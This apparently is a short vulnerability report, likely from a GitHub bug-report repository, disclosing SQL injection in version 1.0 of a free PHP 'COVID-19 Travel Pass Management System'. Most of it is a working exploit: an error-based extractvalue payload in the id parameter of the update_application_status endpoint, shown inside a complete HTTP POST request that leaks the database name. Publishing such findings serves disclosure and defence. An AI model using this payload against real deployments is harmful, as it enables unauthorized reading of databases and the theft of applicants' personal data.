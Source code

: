 # covid-19-travel-pass-management-system v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ctpms/classes/Master.php?f=update_application_status

Vulnerability location:/ctpms/classes/Master.php?f=update_application_status, id

[+] Payload: 1'and/**/extractvalue(1,concat(char(126),database()))and' // Leak place ---> id

Tested on Windows 10, XAMPP

```
POST /ctpms/classes/Master.php?f=update_application_status HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------4024160998608039623756913069
Content-Length: 335
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ctpms/admin/?page=applications/view_application&id=1
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------4024160998608039623756913069
Content-Disposition: form-data; name="id"

1'and/**/extractvalue(1,concat(char(126),database()))and'
-----------------------------4024160998608039623756913069
Content-Disposition: form-data; name="status"

1
-----------------------------4024160998608039623756913069--

```

![](https://github.com/mikeccltt/bug_report_CVE/blob/main/Covid-19-Travel-Pass-Management-System/sql.gif?raw=true)

